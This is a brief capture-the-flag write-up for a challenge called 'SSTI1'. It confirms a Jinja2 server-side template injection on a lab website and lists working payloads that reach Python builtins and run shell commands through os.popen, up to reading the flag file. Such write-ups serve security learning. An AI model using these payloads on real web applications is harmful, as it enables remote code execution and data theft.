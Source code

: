 # SSTI1
## Description: 
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

### Solution
1. First confirming SSTI using the payload, `${{<%[%'"}}%\.` and it should cause internal server error.
2. Using the payload `{{7*'7'}}`, we get `7777777`. Thus, Jinja2 is being used.
3. To dump all available built-in functions, try `{{self.__init__.__globals__.__builtins__}}`. Notice no blacklisting to user input.
4. To gain RCE and list available files, try `{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}`
5. Lastly, to read the flag, use `{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}`

